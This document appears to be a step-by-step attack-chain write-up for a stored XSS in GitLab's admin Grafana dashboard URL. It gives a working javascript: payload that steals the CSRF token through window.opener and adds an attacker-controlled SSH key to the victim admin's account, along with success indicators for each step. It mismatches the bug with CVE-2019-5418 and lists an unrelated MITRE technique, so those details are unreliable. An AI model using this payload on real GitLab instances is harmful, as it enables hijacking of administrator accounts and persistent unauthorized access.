

---

# Stored XSS in GitLab Grafana Dashboard URL for Admin CSRF Theft and SSH Key Addition

Multi-stage attack chain demonstrating a complete attack workflow exploiting stored XSS in GitLab's admin settings.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools (e.g., Chrome DevTools)

### Target Environment

- GitLab instance (version vulnerable to CVE-2019-5418 or similar, e.g., pre-12.3)
- Web platform
- Administrative access to GitLab
- Services: PostgreSQL 10.10, Redis 4.0.9, Sidekiq 5.2.7, Git 2.23.0, GitLab Shell 9.4.1
- Tech stack: Ruby on Rails, Ruby 2.6.3, PostgreSQL

### Initial Access Requirements

- Valid administrator credentials for the GitLab instance
- Direct network access to the GitLab web interface
- No prior access needed beyond admin privileges

## Detailed Attack Procedures

### Step 1: Access Admin Grafana Settings
procedure: [[procedures/Access-GitLab-Admin-Grafana-Settings]]

**Objective**: Navigate to the vulnerable input field in the admin panel to prepare for payload injection.

**Instructions**: Log in as an administrator and access the Grafana settings page using the direct URL or navigation menu.

**Expected Output**: The admin application settings page loads, showing the Metrics and Profiling section with the Grafana domain URL field.

**Success Indicators**:
- Admin panel accessible without errors
- Grafana settings section visible

### Step 2: Inject JavaScript Payload into Grafana URL
procedure: [[procedures/Inject-JavaScript-Payload-into-Grafana-URL]]

**Objective**: Enter a malicious javascript: URL payload into the Grafana domain field, which gets stored without validation.

**Instructions**: In the Grafana domain URL field, input the payload and save the settings. Start with a basic test payload using [[commands/javascript-alert-opener-location]] to confirm storage and rendering.

```javascript
javascript:alert(window.opener.document.location)
```

For impact demonstration, use the advanced payload with [[commands/javascript-csrf-theft-ssh-addition]]:

```javascript
javascript:var csrf = window.opener.$('meta[name=csrf-token]').attr('content'); window.opener.$.post('/profile/keys', { 'authenticity_token': csrf, 'key[key]': 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUXhvMZ/BFqgVY4iWWv2lrs2alZHA6CoNcnZWH7gxObXGeFK89/itFbI8NrEDE291LRScBL1nuHs0xlf7uidf97uFGVMyIW8TKeaG/j5q6olr9ejiOZhiiGGkQZf1iSTV4VYN77EtG7iV62VB1ZbwnCau1xT5mlXbd8E4WzaHIxuOY8Ao8EozouaQzWt+I1xJx5rufVwItmTaX5QKV5Cuv8GhMRUb1UqujNKr22/rbWnut0pSzB1+uE4S4E1AaCNX9Byy0z65nzupk5kdj8y/qJ3pk8UBOgQtJCFEOwc42EHS3JwTeMRNRXs9bwqRJfXUomXL1LZ5Eua7UX7aQq7pf admin@foo.com', 'key[title]': 'admin@foo.com' });
```

Save the settings to store the payload.

**Expected Output**: Settings saved successfully; payload stored in the backend.

**Success Indicators**:
- No validation errors on save
- Payload visible in the field after reload

### Step 3: Trigger XSS via Metrics Dashboard Link
procedure: [[procedures/Trigger-XSS-via-Metrics-Dashboard-Link]]

**Objective**: Render the stored payload as a clickable link in the admin sidebar, executing JavaScript when another admin clicks it, exploiting window.opener for DOM manipulation.

**Instructions**: From the admin sidebar, navigate to Monitoring -> Metrics Dashboard. The Grafana URL renders as a link with target='_blank'. Click the link to open in a new tab, triggering the payload.

**Expected Output**: New tab opens; JavaScript executes, showing alert (basic) or performing POST request (advanced) to add SSH key.

**Success Indicators**:
- Alert pops up confirming access to original tab
- SSH key added to victim account (verifiable in /profile/keys)

## Attack Chain Summary

### Key Achievements

1. Successful injection and storage of javascript: payload without protocol validation
2. Execution of arbitrary JavaScript in victim admin sessions via sidebar link
3. Theft of CSRF token and unauthorized addition of attacker-controlled SSH key, enabling persistent access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Cloud Instance Metadata API]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]
- [[Privilege Escalation]]

---

*Last updated: 2023-10-01T00:00:00Z*
